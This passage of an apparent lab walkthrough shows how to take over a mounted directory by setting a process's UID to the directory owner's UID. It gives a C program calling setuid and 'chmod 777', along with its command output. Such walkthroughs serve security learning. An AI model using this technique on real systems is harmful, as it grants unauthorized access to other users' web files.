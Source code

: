 I wasn't able to read it, so I kept that in mind.

No luck in `ross/`, so I went to play around with `html/`

Back to the question, why are we not able to read the `html/` directory?

If we view the **id** permissions of the directories:
```console
$ ls -ln 

drwxr-xr--  5 2017   33 4096 Nov 11 00:40 html
drwxr-xr-x 14 1001 1001 4096 Nov 10 22:03 ross
```

For `html/`, we can see that the **uid** is `2017`, and the **gid** is `33`.

In order to take control of `html/`, we have to change it's permission using the **uid of the owner**, which is `2017`.

```
drwxr-xr--  5 2017   33 4096 Nov 11 00:40 html
               ^
             Here!
```

I've written a script in C, `test.c`:
```c
#include <stdio.h>
#include <unistd.h>

int main(){ 
	setuid(2017); //Setting the UID
	system("id"); //Verifying our UID
	system("chmod 777 html/"); //Change the permissions of 'html/'
	system("ls -ln"); //Verify the permissions of 'html/' after modifying
	return 0;
}
```

We then compile it:
```console
gcc test.c -o test
```

Executing the program (must run with sudo):
```console
$ sudo ./test                                                                              
uid=2017(squashed) gid=0(root) groups=0(root)
total 24
drwxrwxrwx  5 2017   33  4096 Nov 11 00:50 html
drwxr-xr-x 14 1001 1001  4096 Nov 10 22:03 ross
-rwxr-xr-x  1 1001 1001 16008 Nov 11 00:52 test
```

Now we can see that the `html/` directory has been compromised.

```console
$ cd html/
$ ls -la

total 56
drwxrwxrwx 5  2017 www-data  4096 Nov 11 00:55 .
drwxr-xr-x 4 ryz3n ryz3n     4096 Nov 11 00:52 ..
drwxr-xr-x 2  2017 www-data  4096 Nov 11 00:55 css
-rw-r--r-- 1  2017 www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2  2017 www-data  4096 Nov 11 00:55 images
-rw-r----- 1  2017 www-data 32532 Nov 11 00:55 index.html
drwxr-xr-x 2  2017 www-data  4096 Nov 11 00:55 js
```
